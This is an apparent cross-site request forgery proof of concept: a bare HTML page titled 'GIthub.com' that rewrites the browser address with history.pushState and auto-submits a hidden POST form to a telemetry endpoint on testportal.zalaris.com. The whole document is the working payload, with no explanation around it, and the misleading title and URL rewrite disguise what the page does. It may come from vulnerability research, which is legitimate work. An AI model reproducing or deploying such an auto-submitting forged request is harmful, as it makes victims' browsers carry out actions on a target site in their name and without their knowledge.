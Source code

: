 <html><h1>GIthub.com</h1><body><script>history.pushState('', '', '/')</script><form action="https://testportal.zalaris.com/neptune/zalaris_launchpad_standard?ajax_id=GET_TELEMETRY_APP&ajax_applid=ZALARIS_LAUNCHPAD_STANDARD&sap-client=510&dxp=22100009&field_id=80287" method="POST"><input type="submit" value="Submit request" /></form><script>document.forms[0].submit();</script></body></html>

